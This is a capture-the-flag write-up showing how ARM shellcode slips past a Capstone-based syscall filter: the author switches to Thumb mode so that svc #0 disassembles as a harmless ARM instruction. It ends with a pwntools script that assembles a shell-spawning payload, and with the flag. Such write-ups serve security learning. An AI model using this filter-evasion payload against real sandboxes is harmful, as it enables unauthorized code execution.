


# Setup
We can run the container like so:

```sh
$ docker build . -t saas && docker run -p 5001:5000 --privileged --rm saas
[I][2023-09-30T11:45:01+0000] Mode: LISTEN_TCP
[I][2023-09-30T11:45:01+0000] Jail parameters: hostname:'app', chroot:'', process:'/app/run', bind:[::]:5000, max_conns:0, max_conns_per_ip:0, time_limit:20, personality:0, daemonize:false, clone_newnet:true, clone_newuser:true, clone_newns:true, clone_newpid:true, clone_newipc:true, clone_newuts:true, clone_newcgroup:true, clone_newtime:false, keep_caps:false, disable_no_new_privs:false, max_cpus:0
[I][2023-09-30T11:45:01+0000] Mount: '/' flags:MS_RDONLY type:'tmpfs' options:'' dir:true
[I][2023-09-30T11:45:01+0000] Mount: '/srv' -> '/' flags:MS_RDONLY|MS_NOSUID|MS_NODEV|MS_BIND|MS_REC|MS_PRIVATE type:'' options:'' dir:true
[I][2023-09-30T11:45:01+0000] Mount: '/proc' flags:MS_RDONLY|MS_NOSUID|MS_NODEV|MS_NOEXEC type:'proc' options:'' dir:true
[I][2023-09-30T11:45:01+0000] Uid map: inside_uid:1000 outside_uid:1000 count:1 newuidmap:false
[I][2023-09-30T11:45:01+0000] Gid map: inside_gid:1000 outside_gid:1000 count:1 newgidmap:false
[I][2023-09-30T11:45:01+0000] Listening on [::]:5000
```

If we connect to the port with nc:
```sh
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
00f020e3
*** Read 1 instructions ***
0xdead0000:     nop
*** Shellcode looks good, let's roll! ***
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```

I used [shellstorm](https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=nop%0D%0Areturn&arch=arm&as_format=hex#assembly) to assemble it

I think the issue here is that after the `nop`, it runs to nullbytes/uninited code or something like that. Eventually it runs through the entire buffer and accesses illegal code (NX, non existing, or something like that).

We need to return for it not to fail. In reality it doesn't matter if it segfaults *after* our code is run, but I want to understand more.

# Decompiling chal.c
```sh
$ docker ps | grep saas
79e7890237fe   saas         "/jail/run"              3 minutes ago    Up 3 minutes    0.0.0.0:5001->5000/tcp   vigorous_einstein
$ docker exec 79e7890237fe find . | grep chal 
./srv/app/chal
./proc/sys/net/ipv4/tcp_challenge_ack_limit
$ docker cp 79e7890237fe:srv/app/chal downloaded_chal
Successfully copied 7.46MB to /Users/jole/ctf/buckeye23/saas2/downloaded_chal
```



It uses `blx`. It's been a while so first i tried `pop {pc}`, which gave `signal 4 (Illegal instruction)`, but `bx lr` worked!

```sh
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
1eff2fe1
*** Read 1 instructions ***
0xdead0000:     bx              lr
*** Shellcode looks good, let's roll! ***
```

Also if the challenge authors read this, I really dig that it shows you the disassembly!

# Exploit ideas
1. **Problem**: Syscalls are blocked.
	- We may be able to jump to thumb mode
2. We could possibly leak some addresses since it only clears r0-r10 before calling our code, since we actually have 32 registers. Just scrolling through the disasm, it seems only `r11` is really used of the registers above `r10`. Maybe we could leak `main` from the `lr` register?

I don't really see how we could proceed with number 2, just having the address of main, so I go with idea 1.

# Exploring how syscalls are filtered.

Lets try calling a simple syscall:
```asm
nop
svc #0
bx lr
```

```sh
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
00f020e3000000ef1eff2fe1
*** Read 3 instructions ***
0xdead0000:     nop
0xdead0004:     svc             #0
*** No syscalls for you! ***
```

It filters it out while disassembling/inspecting it seems, and then early exits.

Going even more in depth we see the c code checks for `ARM_GRP_INT`, which is equal to `CS_GRP_INT`, which you can see [here](https://github.com/mrexodia/FloatConvert/blob/914f301fed4318c262499bbaf9feedb657dcd169/FloatConvert/pluginsdk/capstone/arm.h#L906C27-L906C37)

We quickly see that `CS_GRP_INT` means all interrupt instructions, including syscalls, so there doesn't seem like we can bypass this directly. We continue with idea no 1.
# How is thumb disassembled as arm?
Lets try writing some shellcode in thumb and see if it gets filtered. Im willing to bet it doesn't!

```asm
mov r0, 123
svc 93
```

```
4ff07b005ddf
```

```
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
4ff07b005ddf
*** Read 1 instructions ***
0xdead0000:     rsbseq          pc, fp, pc, asr #32
*** Shellcode looks good, let's roll! ***
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```
Nice! Our thumb shellcode which does a syscall looks completely different as arm!

This code should call exit(123), and we can see the exit code in the window running the container, so let's see if we can now actually get to run it as thumb!

**This is actually wrong code, with the linux arm abi, you put the syscall nr in `r8`, not after svc, but the point still stands**

# Odds and evens
As far as i remember, the only thing controlling which mode we are in is the parity of the pc. This makes perfect sense because arm instructions are 4 bytes and thumb instructions are 2 bytes. If code always starts at an even location, there is no way to reach an odd location! So the lsb of `pc` is always 0, hence we can actually set it to 0/1 to switch modes, and the cpu will just ignore the lowest bit when finding what instruction to fetch. (Though it does of course matter a lot for what mode it will be in!!!)

I don't remember which is which, so i'll just use gdb.

```
0x0000ffff9afe7c20 in _start () from /lib/ld-linux-aarch64.so.1
(gdb) si
0x0000ffff9afe7c24 in _start () from /lib/ld-linux-aarch64.so.1
(gdb) si
0x0000ffff9afe7c28 in _start () from /lib/ld-linux-aarch64.so.1
```

Ok, it jumps 4 at a time, so it's arm. We also see that `lsb=0` means arm. We see this from that the last nibble goes 0, 4, 8 and not 1, 5, 9.

# Just do it!
We want to make an arm instruction which jumps to the next thumb instruction. That means we increment pc by 4 to reach the next instruction, but we actually need 5 to fix the mode.

I think this might just work?
```
add pc, 5
= 05f08fe2
```

We concat the two strings and get

```
  05f08fe2 +  4ff07b005ddf
= 05f08fe24ff07b005ddf
```


```
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
05f08fe24ff07b005ddf
*** Read 2 instructions ***
0xdead0000:     add             pc, pc, #5
0xdead0004:     rsbseq          pc, fp, pc, asr #32
*** Shellcode looks good, let's roll! ***
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```
Hm... no good. Without a debugger it's hard to say whats happening.

# Proper way
Looking at pwntools, we can see [how shellcraft implements to_thumb()](https://github.com/Gallopsled/pwntools/blob/6aaaf84586/pwnlib/shellcraft/templates/arm/to_thumb.asm)
```
add r0, pc, #1
bx r0

= 01008fe210ff2fe1
```

The issue here is that capstone, which the challenge uses, stops when it reaches a `bx`. That means we cannot instantly switch to thumb mode, because capstone stops before it reaches that. It's not inherently bad, as we dont care about the disassembly process in itself, but `chal.c` has this killer:
```c
if (count != sz / 4) {
	die("*** Incorect number of disassembled instructions. Make sure instructions are correct. ***");
}
```

My solution is that we have to first run our `svc #0` as arm, then as our last instruction, bx back up there into thumb mode. 

We know `svc #0` is equivalent to thumb `df 00`. I just play around, adding two random values:
```asm
// first lets make sure it's not svc in arm mode
00 df 00 00    andeq sp, r0, r0, lsl #30
// ok, thats fine, now lets make sure it's fine in thumb mode too
00 df          svc #0
00 00          movs r0, r0
// yup!
```
So when we initially run over it, it's going to do some `and` operation, hopefully just setting some flags? Might modify `sp` but once we do the syscall we get a shell, so I'm not worried about side effects later.

# Full code
I wrote this little script which generates the shellcode.
```python
from pwn import *


# make the shellcode

context.arch = "arm"

sc = shellcraft.arm.linux.sh()
sc = asm(sc)

#print(disasm(sc))

# remove svc at the end
sc = sc[:-4]

# this becomes "andeq sp, r0, r0, lsl #30"
sc += asm("svc #0; movs r0, r0", arch="thumb")

# and now we need to jump back up.
# NORMAL CODE:
# > add r0, pc, #1
# > bx r0
# we want to jump further back.
# we want to unskip our "NORMAL CODE" instructions, AND then jump 4 bytes back more, to the beginning of svc.
# #1 - 8 - 4 = -11
# FIXED CODE:
# > sub r9, pc, #11
# > bx r9

sc += asm("sub r9, pc, #11; bx r9")


# add `ret` for testing
#sc += asm("bx lr", arch="arm")


print(disasm(sc))
print(sc.hex())
```

Naturally there is a `svc` right at the end. We remove that, and append our hack which calls `svc` by switching to thumb mode while jumping back to code we already ran.
# Result


And somehow it worked!

Flag: `bctf{pL3@s3_d0nT_t0ucH_mY_thUmB$}`
